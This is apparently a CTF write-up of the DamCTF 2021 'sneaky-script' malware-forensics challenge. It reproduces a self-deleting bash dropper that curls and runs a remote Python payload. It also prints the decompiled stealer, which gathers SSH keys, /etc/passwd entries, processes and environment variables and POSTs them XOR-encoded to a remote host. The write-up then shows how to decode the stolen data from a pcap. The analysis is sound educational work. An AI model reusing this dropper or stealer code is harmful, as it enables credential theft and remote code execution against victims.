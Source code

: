 ```yaml
---
# Obsidian
tags:
- ctf
- 2021-damctf
- malware
- forensics
- pcap
- wireshark
- python
- bash
- xor
- base64


# Jekyll
layout: ctf
type: problem

# Problem info
ctf: 2021-damctf
category: malware
title: sneaky-script
points: 333
solved: true
---
```


# sneaky-script

## Instructions

We recovered a malicious script from a victim environment. Can you figure out what it did, and if any sensitive information was exfiltrated? We were able to export some PCAP data from their environment as well.

[files.zip](#)

## Solution

In the included files.zip we have a shell script and a pcap file. The shell script is as follows:

```bash
#!/bin/bash

rm -f "${BASH_SOURCE[0]}"

which python3 >/dev/null
if [[ $? -ne 0 ]]; then
 exit
fi

which curl >/dev/null
if [[ $? -ne 0 ]]; then
 exit
fi

mac_addr=$(ip addr | grep 'state UP' -A1 | tail -n1 | awk '{print $2}')
curl 54.80.43.46/images/banner.png?cache=$(base64 <<< $mac_addr) -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36" 2>/dev/null | base64 -d > /tmp/.cacheimg

python3 /tmp/.cacheimg
rm -f /tmp/.cacheimg
```

In wireshark we can filter for the `54.80.43.46` ip address and grab the base64 string in the response to the curl request. Decoding it gives us a byte-compiled python string.

```bash
$ file curl-response 
curl-response: python 3.6 byte-compiled
```

We can decomplie this bytecode back to Python using the python package `uncompyle6`.

```python
# uncompyle6 version 3.8.0
# Python bytecode 3.6 (3379)
# Decompiled from: Python 3.9.7 (default, Sep 24 2021, 09:43:00) 
# [GCC 10.3.0]
# Embedded file name: /tmp/tmpaliidej5
# Compiled at: 2021-09-25 17:59:31
# Size of source mod 2**32: 2900 bytes
import array, base64, fcntl, http.client, json, re, socket, struct, os, uuid

def get_net_info():
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    g = array.array('B', b'\x00' * 4096)
    y = struct.unpack('iL', fcntl.ioctl(s.fileno(), 35090, struct.pack('iL', 4096, g.buffer_info()[0])))[0]
    n = g.tobytes()
    a = []
    for i in range(0, y, 40):
        c = n[i:i + 16].split(b'\x00', 1)[0]
        c = c.decode()
        m = n[i + 20:i + 24]
        v = f"{m[0]}.{m[1]}.{m[2]}.{m[3]}"
        a.append((c, v))
    return a


def get_users():
    with open('/etc/passwd', 'r') as (f):
        x = [x.strip() for x in f.readlines()]
    g = []
    for z in x:
        a = z.split(':')
        if int(a[2]) < 1000 or int(a[2]) > 65000:
            if a[0] != 'root':
                continue
        g.append((a[2], a[0], a[5], a[6]))
    return g


def get_proc():
    n = []
    a = os.listdir('/proc')
    for b in a:
        try:
            int(b)
            x = os.readlink(f"/proc/{b}/exe")
            with open(f"/proc/{b}/cmdline", 'rb') as (f):
                s = (b' ').join(f.read().split(b'\x00')).decode()
            n.append((b, x, s))
        except:
            continue
    return n


def get_ssh(u):
    s = []
    try:
        x = os.listdir(u + '/.ssh')
        for y in x:
            try:
                with open(f"{u}/.ssh/{y}", 'r') as (f):
                    s.append((y, f.read()))
            except:
                continue
    except:
        pass
    return s


def build_output(net, user, proc, ssh):
    out = {}
    out['net'] = net
    out['proc'] = proc
    out['env'] = dict(os.environ)
    out['user'] = []
    for i in range(len(user)):
        out['user'].append({'info':user[i],  'ssh':ssh[i]})
    return out


def send(data):
    c = http.client.HTTPConnection('34.207.187.90')
    p = json.dumps(data).encode()
    k = b'8675309'
    d = bytes([p[i] ^ k[(i % len(k))] for i in range(len(p))])
    c.request('POST', '/upload', base64.b64encode(d))
    x = c.getresponse()


def a():
    key = ':'.join(re.findall('..', '%012x' % uuid.getnode()))
    if '4b:e1:d6:a8:66:be' != key:
        return
    net = get_net_info()
    user = get_users()
    proc = get_proc()
    ssh = []
    for _, _, a, _ in user:
        ssh.append(get_ssh(a))
    data = build_output(net, user, proc, ssh)
    send(data)


try:
    a()
except:
    pass
# okay decompiling curl-response.pyc
```

The `send()` function appears to be exfiltrating xor'ed and base64 encoded data back to a remote host via HTTP. We can grab the exfiltrated data by looking for the POST request from the `34.207.187.90` host in the pcap and decoding the data.

```python
import base64

def main():
    with open("exfil.bin", "r") as f:
        encoded = f.read()
        k = b'8675309'
        data = base64.b64decode(encoded)
        print(bytes([data[i] ^ k[(i % len(k))] for i in range(len(data))]))

if __name__ == "__main__":
    main()
```

Search for the flag format in the resulting data gets us the flag in the environment variables:

```
"FLAG": "dam{oh_n0_a1l_muh_k3y5_are_g0n3}",
```

## Continued On


